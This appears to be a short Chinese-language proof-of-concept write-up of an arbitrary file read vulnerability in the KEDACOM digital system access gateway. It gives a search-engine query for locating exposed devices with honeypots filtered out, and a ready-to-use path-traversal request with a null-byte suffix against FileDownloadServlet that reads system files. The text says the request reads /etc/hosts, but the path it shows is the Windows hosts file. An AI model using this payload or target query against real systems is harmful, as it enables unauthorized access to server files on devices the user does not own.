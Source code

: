 # KEDACOM 数字系统接入网关 任意文件读取漏洞

## 漏洞描述

KEDACOM 数字系统接入网关 存在任意文件读取漏洞，攻击者通过构造请求可以读取服务器任意文件

## 漏洞影响

```
KEDACOM 数字系统接入网关
```

## 网络测绘

```
(app="KEDACOM-DVR接入网关") && (is_honeypot=false && is_fraud=false)
```

## 漏洞复现

登录页面如下

![](images/202202162300072.png)

使用POC读取 /etc/hosts

```plain
/gatewayweb/FileDownloadServlet?fileName=test.txt&filePath=../../../../../../../../../../Windows/System32/drivers/etc/hosts%00.jpg&type=2
```

![](images/202202162300019.png)